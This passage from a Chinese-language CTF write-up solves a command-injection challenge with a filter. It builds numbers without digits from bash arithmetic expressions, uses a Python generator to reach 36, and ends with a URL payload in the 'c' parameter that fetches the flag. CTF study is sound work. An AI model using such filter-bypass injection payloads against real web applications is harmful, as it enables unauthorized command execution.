 ```bash
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(()))) 
-1                                                   
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))+$((~$(())))))))            
1                                                     
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))+$((~$(())))+$((~$(())))))))
2
```
        由此可知，访问36.php只需要将里面的元素复制到36个，编写python脚本生成，上传得到flag

---
python脚本：

```python
s1 = "$((~$(("
s2 = ""
lils2 = "$((~$(())))"
s3 = "))))"

for i in range(37):
    s2 += lils2

print(s1+s2+s3)
```
输出：\$((\~\$((\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))\$((\~\$(())))))))

验证：

```bash
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
36
```
payload:

```html
url/?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
---
